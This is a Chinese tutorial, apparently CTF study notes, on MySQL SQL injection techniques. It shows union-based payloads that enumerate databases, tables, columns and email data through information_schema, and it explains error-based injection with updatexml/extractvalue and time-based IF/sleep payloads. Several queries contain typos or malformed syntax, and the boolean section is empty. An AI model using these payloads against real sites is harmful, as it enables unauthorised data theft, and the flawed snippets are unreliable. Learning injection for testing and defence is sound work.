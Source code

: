 ## Union注入攻击

### 判断字段长度
使用order by num。其中num指的就是第几列，由于不存在第几行就会报错。比如 order by 4，这个就是指的是按照第四列排序，如果不存在第四行就会报错
### 判断相关字段类型
使用order by num 可以获取到有几列数据，现在就要获取到每列数据的数据类型。比如上面获取到的是四列数据。则这里就是用

```sql
union select 1,2,3,4 
```


看返回的是哪个数字就可以确认对应的列是可以返回数据的。
### 获取数据
已经获取到了4列数据，并且确认返回的是3，即

```sql
union select 1,2,3,4 
```


返回的是3则说明第三列可以存放变量的。
使用
#### 获取数据库

```sql
id=1 union select 1,2,database(),4
```


成功返回当前使用的数据库，返回的是sql
#### 获取表的名字

```sql
unioon select 1,2,(select table_name from information_schema.tables table_name='sql' limit 0,1),4
```


成功获取返回得到数据表，emails.同时修改limit n,m中的n和m就可以得到不同的表名。
#### 获取字段名  
以emails表为例子。  
1. 查询information_schema中对应的数据

```sql
union select 1,2,(select column_name from information_schema.columns where table_schema='sql' and table_name = 'emails' limit 0,1;),3
```  
2. 使用describe table获取表的数据  
```sql
describe table_name 
```


修改limit值就可以得到全部的字段名

#### 查询数据
现在已经知道了数据库的名字、数据表的名字、字段的名字，要想获取到数据就变得很简单的。以上面获取到的数据库、数据表、字段为例。

```sql
    union select 1,2,(select email_id from sql.emails limit 0,1)
```


修改limit就可以获取到全部的数据


## 报错注入攻击
当sql语句出现错误的时候，如果前端没有进行过滤，就会将报错信息显示出到前端来。所以报错注入的本质，就是从报错中获取信息。
使用updatexml与extractvalue进行注入
updatexml与extractvalue是什么？可以看[这篇文章](https://www.cnblogs.com/laoxiajiadeyun/p/10488731.html).  
简单来说，就是在执行函数的时候，会自动去执行参数字符串。如果字符串参数的内容不符合xpath语法，那么就会报错。
[例题](http://www.wujiashuai.com/column/ctfsqlzhuru/52)  
使用xml进行报错注入[sql注入之报错注入——加了料的报错注入](http://www.wujiashuai.com/column/ctfsqlzhuru/58)

## boolean注入

返回结果，只有两种情况，比如




## 时间注入
时间注入与boolean注入非常相近，也可以看成是boolean注入的一个子分支。它与Boolean注入的不同之处在于，时间注入是利用sleep() 或benchmark（）等函数让MySQL的执行时间变长。也就是boolean是使用了选择语句，但是时间注入的选择语句中如果被执行，那么就会比平时花费更多的时间，所以也就是两种情况，一条注入语句的执行时间有没有边长。比如下面这条sql语句
1. 利用时间注入查询数据库长度

```sql
    IF(length(database())>1,sleep(5),1)
```


语句的作用在于如果数据库库名的长度大于1 ，则MySQL查询休眠5秒，否则查询1。其中查询l的结果， 大约只有几十毫秒，根据Burp Suite中页面的响应时间，可以判 断条件是否正确。
2. 利用时间注入查询数据库名字

```sql
if(substr(database(),1,1)='s',sleep(5),1)
```


查询当前用户数据库的第一个字母是不是‘s’，如果是s则会暂停5秒
